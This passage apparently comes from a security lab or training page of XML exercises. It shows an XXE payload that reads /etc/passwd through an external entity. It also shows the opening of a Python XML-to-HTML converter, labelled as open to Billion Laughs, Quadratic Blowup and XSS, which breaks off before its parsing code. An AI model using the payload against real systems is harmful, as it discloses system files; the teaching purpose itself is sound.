 Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root isroot="yes"><test isroot="no">&xxe;</test></root>
```

#### XML to HTML

Attack: *Billion Laughs*, *Quadratic Blowup*, potential *XSS* in stderr.

```python
from xml.etree.ElementTree import fromstring, ParseError
from sys import stdin, exit, stderr
from base64 import b64decode
from string import Template
from re import fullmatch
from html import escape

example = """<?xml version="1.0"?>
<document>
    <text>
        <data>Hello World !</data>
        <color>#FFFFFF</color>
        <type>h1</type>
    </text>
    <text>
        <data>Build a simple web page with XML !</data>
        <color>#FFFFFF</color>
        <type>p</type>
    </text>
</document>"""

output = Template("""
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>My Web Page !</title>

        <style>
            body {
                font-family: "'14px/1.3 Avenir',Helvetica,Arial,sans-serif";
                backgroud-color: #efefef;
            }
            div {
                margin-right: 25%;
                margin-left: 25%;
                margin-top: 25px;
                background-color: #ababab;
                border: 1px solid #222222;
                border-radius: 10px;
                padding: 25px;
            }
        </style>
    </head>
    <body>
        <div>
            ${data}
        </div>
    </body>
</html>
""")

```